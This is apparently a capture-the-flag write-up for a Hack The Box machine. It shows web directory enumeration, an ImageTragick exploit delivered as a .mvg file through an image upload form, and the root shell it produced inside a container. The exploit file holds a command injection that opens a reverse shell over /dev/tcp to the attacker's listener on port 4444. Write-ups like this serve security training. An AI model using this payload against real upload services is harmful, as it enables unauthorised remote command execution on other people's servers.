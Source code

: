 ```bash
+ https://calvin.ariekei.htb/main.mdb (CODE:403|SIZE:1618)                                                        
+ https://calvin.ariekei.htb/php.ini (CODE:403|SIZE:1618)                                                         
+ https://calvin.ariekei.htb/production.log (CODE:403|SIZE:1618)                                                  
+ https://calvin.ariekei.htb/spamlog.log (CODE:403|SIZE:1618)                                                     
+ https://calvin.ariekei.htb/thumbs.db (CODE:403|SIZE:1618)                                                       
+ https://calvin.ariekei.htb/Thumbs.db (CODE:403|SIZE:1618)                                                       
+ https://calvin.ariekei.htb/upload (CODE:200|SIZE:1656)                                                          
+ https://calvin.ariekei.htb/WS_FTP.LOG (CODE:403|SIZE:1618)
```
we got to /uploads and there is a upload feature.

it appears to ask for an image to upload but we try to get around this. It looks like it could be vulnerable to an ImageTragik exploit.
After alot of reasearch we develop a file with the extension .mvg which will hold or reverse shell
exploit.mvg:
```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i>/dev/tcp/your ip/4444 0<&1 2>&1")'ms
pop graphic-context
```

We then upload this with a listener on port 4444 and we get a shell back as root@calvin.

`cat /proc/1/group` shows that we are inside a doker container. This is worth noting for later.

We then head to enumerate files and we find something in `/common`.
```bash
[root@calvin /]# ls
ls
anaconda-post.log
app
bin
common
dev
etc
home
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[root@calvin /]# cd common
cd common
[root@calvin common]# ls
ls
containers
network
```
